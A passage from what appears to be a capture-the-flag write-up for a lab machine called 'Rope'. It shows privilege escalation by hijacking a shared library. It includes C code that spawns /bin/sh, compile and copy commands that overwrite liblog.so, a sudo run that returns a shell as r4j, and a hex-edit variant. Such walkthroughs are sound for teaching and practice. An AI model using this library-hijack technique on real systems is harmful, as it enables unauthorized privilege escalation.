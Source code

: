 

### Path 1: Create an so

I'll create a simple c program and upload it to Rope:



    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    void printlog() {
        execve("/bin/sh", NULL, NULL);
    }



This code has the `printlog` function, and it just runs a shell. I'll
compile it into a shared library, and despite some warnings, it makes a
shared object file:



    john@rope:/dev/shm$ gcc -shared -o liblog-evil.so -fPIC liblog-evil.c
    liblog-evil.c: In function ‘printlog’:
    liblog-evil.c:6:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
         execve("/bin/sh", NULL, NULL);
         ^~~~~~
    john@rope:/dev/shm$ file liblog-evil.so             
    liblog-evil.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=744ac31a55faeae58bd3661f32f48436fecbad2f, not stripped



Now I'll copy it into place of the library, and run `readlogs`:



    john@rope:/dev/shm$ cp liblog-evil.so /lib/x86_64-linux-gnu/liblog.so
    john@rope:/dev/shm$ sudo -u r4j /usr/bin/readlogs
    $ id
    uid=1000(r4j) gid=1000(r4j) groups=1000(r4j),4(adm)



### Path 2: Edit liblog.so

Alternatively, I can pull back `liblog.so` and take a look at `printlog`
in IDA:?

![](/img/1567246044909.png)

It is just calling `system` on a static string. I can open a copy of the
library up in a hex editor (I'm using `bless`), scroll down until I see
the string, and modify it to `/bin/sh\x00`:

[![](/img/1567246167348.png)*Click for full
size ![image*](/img/1567246167348.png)

I can upload that to Rope, copy it into place, and run `sudo readlogs`
to get a shell as r4j.
